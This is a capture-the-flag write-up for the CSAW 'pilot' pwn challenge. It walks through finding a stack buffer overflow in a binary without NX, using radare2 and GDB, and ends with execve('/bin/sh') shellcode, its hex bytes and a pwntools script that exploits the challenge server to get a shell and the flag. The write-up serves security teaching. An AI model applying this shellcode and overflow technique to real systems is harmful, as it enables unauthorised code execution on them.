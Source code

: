 #Description
The pilot challenge was part of the pwn category, there was a binary available to download and the only
information we got was this:

Can I take your order?

nc pwn.chal.csaw.io 8464

# Running the binary
First of all we will run the binary to check if there is some sort for information that can help us to
discover the path to follow, after running the binary we can see a series of outputs and one line asking
for an input from the user, the location output seems interesting since it looks like it's some sort of
memory leak, we entered a random letter on the command input and nothing happened.

```
 [*]Welcome DropShip Pilot...
 [*]I am your assitant A.I....
 [*]I will be guiding you through the tutorial....
 [*]As a first step, lets learn how to land at the designated location....
 [*]Your mission is to lead the dropship to the right location and execute sequence of instructions to save Marines & Medics...
 [*]Good Luck Pilot!....
 [*]Location:0x7ffe61dfd4a0
 [*]Command:a
 [*]There are no commands....
 [*]Mission Failed....
```
We executed the binary again but this time we entered more data in the command input and this time we got
a segmentation fault, we need to find out what is causing this and if it's exploitable.
```
 ./pilot.bin 
 [*]Welcome DropShip Pilot...
 [*]I am your assitant A.I....
 [*]I will be guiding you through the tutorial....
 [*]As a first step, lets learn how to land at the designated location....
 [*]Your mission is to lead the dropship to the right location and execute sequence of instructions to save Marines & Medics...
 [*]Good Luck Pilot!....
 [*]Location:0x7ffef4406230
 [*]Command:aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
 Segmentation fault
```
# Binary Analysis
First of all lets check what kind of protection this binary has and other stuff in radare2 ...

```
[0x004008b0]> iI
arch     x86
binsz    8616
bintype  elf
bits     64
canary   false
class    ELF64
crypto   false
endian   little
havecode true
intrp    /lib64/ld-linux-x86-64.so.2
lang     cxx
linenum  false
lsyms    false
machine  AMD x86-64 architecture
maxopsz  16
minopsz  1
nx       false
os       linux
pcalign  0
pic      false
relocs   false
relro    partial
rpath    NONE
static   false
stripped true
subsys   linux
va       true
```

We look if some  security features like nx, va and relro are enabled since that will limit how we can
exploit this binary, we can also analyze the binary to identify functions, instructions and other useful
things with radare.

```
[0x004008b0]> aaa
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze len bytes of instructions for references (aar)
[x] Analyze function calls (aac)
[ ] [*] Use -AA or aaaa to perform additional experimental analysis.
[x] Constructing a function name for fcn.* and sym.func.* functions (aan))
```

We can get the list of functions with the command **afl**:
```
[0x004008b0]> afl
0x004007c8    3 26           sub.__gmon_start___248_7c8
0x00400800    2 16   -> 32   sym.imp.setvbuf
0x00400810    2 16   -> 48   sub._ZNSt8ios_base4InitC1Ev_32_810
0x00400820    2 16   -> 48   sym.imp.read
0x00400830    2 16   -> 48   sym.imp.__libc_start_main
0x00400840    2 16   -> 48   sym.imp.__cxa_atexit
0x00400850    2 16   -> 48   sub._ZNSt8ios_base4InitD1Ev_64_850
0x00400860    2 16   -> 48   sub._ZStlsISt11char_traitsIcEERSt13basic_ostreamIcT_ES5_PKc_72_860
0x00400870    2 16   -> 48   sub._ZNSolsEPKv_80_870
0x00400880    2 16   -> 48   sub._ZNSolsEPFRSoS_E_88_880
0x00400890    2 16   -> 48   sub._ZSt4endlIcSt11char_traitsIcEERSt13basic_ostreamIT_T0_ES6__96_890
0x004008a0    1 16           sub.__gmon_start___248_8a0
0x004008b0    1 41           entry0
0x004008e0    4 50   -> 41   fcn.004008e0
0x004009a6    4 400          main
0x00400b36    4 62           sub.std::ios_base::Init.Init___b3
```
The main function can be one of our main focus points, we can go to the main function with the command
**s main** and disassemble it with the command **pdf**, now it's time to find our bug and possible 
vulnerability.

```
[0x004008b0]> s main 
[0x004009a6]> pdf
┌ (fcn) main 400
│   main ();
│           ; var int local_20h @ rbp-0x20
│              ; DATA XREF from 0x004008cd (entry0)
│           0x004009a6      55             push rbp
│           0x004009a7      4889e5         mov rbp, rsp
```
Since we know that the program crashes when we introduce a big string after the command output we will
try to find that in the assembly code, we can verify that the read function is used to capture our
input.
![radare2](imgs/r2-read-add.png)

# Debugging the binary
With what we have at the moment we can set a breakpoint after the read function has ended to take
a quick look at the stack and follow the execution code and verify if we can prevent the segmentation fault
in order to execute our own code to take over the binary.

We selected the address 0x400ae5 as a good location to set a breakpoint, since this is right before the
read function returns.
```
 0x00400ae0      e83bfdffff     call sym.imp.read           ; ssize_t read(int fildes, void *buf, size_t nbyte)
 0x00400ae5      4883f804       cmp rax, 
```
First of all we need to know what the strange number in the Location output is all about, opening the file
in GDB with ASLR off we get the following location **0x7fffffffe340**.

```
 [*]Welcome DropShip Pilot...
 [*]I am your assitant A.I....
 [*]I will be guiding you through the tutorial....
 [*]As a first step, lets learn how to land at the designated location....
 [*]Your mission is to lead the dropship to the right location and execute sequence of instructions to save Marines & Medics...
 [*]Good Luck Pilot!....
 [*]Location:0x7fffffffe340
```

Inspecting our registers it seems this is where the RSP register is pointing to, this is starting to look
like a standard BOF exploit, at address 0x00400ae0 the function read (fd, void \*buf, size_t) is called with
size_t of 0x40 that means 64 chars and if we look carefully RBP sits at address 0x7fffffffe360 so in theory
we can overwrite RBP and RET address in the stack since there is just 32 bytes of difference and we have a
buffer that can hold up to 64 chars.

![bp-0x400ae5](imgs/bp-0x400ae5.png)

Since there is no NX protection to prevent the execution of code in the stack we can inject our shellcode
directly to the stack and modify the ret address in order to jump there, since we just want to spawn a shell
in the remote server we will use the following code in ASM to generate our shellcode that is just sysexecv("/bin/sh",0,0):

``asm
bits 64

push 59
pop rax
cdq
push rdx
pop rsi
mov rcx, '/bin//sh'
push rdx
push rcx
push rsp
pop rdi
syscal
```

We can assemble the instructions with nasm:
 nasm -fbin shellcode.nasm -o sc.bin

And generate a python friendly shellcode with hexdump:
 hexdump -v -e '"\\x" 1/1 "%02X" ' sc.bin
 \x6A\x3B\x58\x99\x52\x5E\x48\xB9\x2F\x62\x69\x6E\x2F\x2F\x73\x68\x52\x51\x54\x5F\x0F\x05

Since we need to overwrite the return address at 0x7fffffffe368 we need an offset of 40 bytes, our shellcode
length is 22 bytes we need 18 bytes to complete our offset we will just nop instructions \x90 to fill the
gap.

We will use [pwntools](https://docs.pwntools.com/en/stable/) since it will help us to reduce some lines of
code and provide some cool functionalities, this is our final script that will deliver our exploit.

```python
from pwn import *

r = remote('pwn.chal.csaw.io', 8464)
buf = ''
buf += '\x6A\x3B\x58\x99\x52\x5E\x48\xB9'
buf += '\x2F\x62\x69\x6E\x2F\x2F\x73\x68'
buf += '\x52\x51\x54\x5F\x0F\x05'
buf += '\x90' * 18
print "[+] Getting memory leak\n"
r.recvline_contains("Good Luck Pilot!")
memleak = r.recvline()
buf += p64(int(memleak[12:26:],16))
print "[+] Sending payload\n"
r.sendline(buf)
print "[+] Entering interactive mode\n"
r.interactive()
```
# Getting the flag
```
foobar@quant:~/h/c/csaw$ python exploit.py 
[+] Opening connection to pwn.chal.csaw.io on port 8464: Done
[+] Getting memory leak

[+] Sending payload

[+] Entering interactive mode

[*] Switching to interactive mode
[*]Command:$ ls
flag
pilot
$ cat flag
flag{1nput_c00rd1nat3s_Strap_y0urse1v3s_1n_b0ys}
```
